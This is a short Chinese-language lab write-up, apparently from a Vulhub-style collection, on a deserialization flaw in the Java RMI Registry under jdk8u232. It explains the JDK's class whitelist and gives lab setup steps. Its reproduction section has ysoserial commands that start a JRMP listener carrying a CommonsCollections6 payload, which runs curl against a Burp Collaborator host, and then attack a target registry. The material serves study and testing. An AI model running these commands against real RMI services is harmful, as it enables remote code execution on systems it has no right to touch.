

Java RMI Registry 反序列化漏洞 (jdk8u232_b09)¶
漏洞描述¶
Java Remote Method Invocation 用于在 Java 中进行远程调用。RMI 存在远程 bind 的功能 (虽然大多数情况不允许远程 bind)，在 bind 过程中，伪造 Registry 接收到的序列化数据 (实现了 Remote 接口或动态代理了实现了 Remote 接口的对象)，使 Registry 在对数据进行反序列化时触发相应的利用链 (环境用的是 commons-collections:3.2.1).
自 jdk8u121 起，Registry 对反序列化的类做了白名单限制
if (String.class == clazz
|| java.lang.Number.class.isAssignableFrom(clazz)
|| Remote.class.isAssignableFrom(clazz)
|| java.lang.reflect.Proxy.class.isAssignableFrom(clazz)
|| UnicastRef.class.isAssignableFrom(clazz)
|| RMIClientSocketFactory.class.isAssignableFrom(clazz)
|| RMIServerSocketFactory.class.isAssignableFrom(clazz)
|| java.rmi.activation.ActivationID.class.isAssignableFrom(clazz)
|| java.rmi.server.UID.class.isAssignableFrom(clazz)) {
return ObjectInputFilter.Status.ALLOWED;
} else {
return ObjectInputFilter.Status.REJECTED;
}
我们需要在上面的几个白名单里面找到相应的可利用的类 具体原理见 浅谈RMI Registry反序列化问题
环境搭建¶
Vulhub 执行如下命令编译及启动 RMI Registry 和服务器：
docker-compose build
docker-compose run -e RMIIP=your-ip -p 1099:1099 rmi
其中，your-ip 是服务器 IP，客户端会根据这个 IP 来连接服务器。
环境启动后，RMI Registry 监听在 1099 端口。
漏洞复现¶
通过 ysoserial 的 exploit 包中的 RMIRegistryExploit2 或者 3 进行攻击
// 开启JRMPListener
java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 8888 CommonsCollections6 "curl http://xxxxx.burpcollaborator.net"
// 发起攻击
java -cp target/ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.RMIRegistryExploit2 192.168.31.88 1099 jrmphost 8888

Registry 会返回报错，这个没关系正常，命令会正常执行。